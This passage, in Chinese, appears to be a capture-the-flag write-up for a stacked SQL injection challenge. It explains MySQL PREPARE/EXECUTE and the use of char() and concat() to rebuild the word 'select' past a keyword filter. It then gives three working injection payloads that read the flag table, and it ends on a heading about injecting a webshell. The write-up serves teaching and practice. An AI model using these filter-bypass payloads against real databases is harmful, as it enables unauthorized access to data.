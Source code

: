 #### 方法二：预处理+堆叠

预处理语句的使用：
```mysql
PREPARE name from '[mysql sequece]'；//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE name;	//删除预定义sql语句
```
预定义语句也可以通过变量进行传递：
```mysql
SET @tn = 'hahaha';					//存储表名
SET @sql = concat('select * from ', @tn);//存储sql语句
PREPARE name from @sql;				//预定义sql语句
EXECUTE name;						//执行预定义sql语句
(DEALLOCATE || DROP) PREPARE sqla;	//删除预定义sql语句
```
本题可以利用char()方法将`ASCII码`转换为`SELECT`字符串，接着利用`concat()`方法进行拼接获得查询的sql语句，从而绕过过滤或者直接使用`concat()`方法绕过。
```mysql
char()								//根据ASCII表返回给指定整数值的字符值
example:
mysql>SELECT CHAR(77,121,83,81,76);
->'mysql'

concat()							//将多个字符串连接成一个字符串
concat(str1,str2);
example:
mysql>SELECT CONCAT('my','s','ql');
->'mysql'
```
>char(115,101,108,101,99,116)<--->'select'

##### payload1：不使用变量
```mysql
1';PREPARE jwt from concat(char(115,101,108,101,99,116), ' * from `1919810931114514`');EXECUTE jwt;#
```

输入后可以直接得到flag。

##### payload2：使用变量

```mysql
1';SET @sql = concat(char(115,101,108,101,99,116),' * from `1919810931114514`);PREPARE jwt from @sql;EXECUTE jwt;#
```

##### payload3：只使用concat()

```mysql
1';PREPARE jwt from concat('s','elect ','* from `1919810931114514`');EXECUTE jwt;#
```

#### 方法三：利用命令执行Getflag

尝试注入一句话木马，然后执行mysql命令
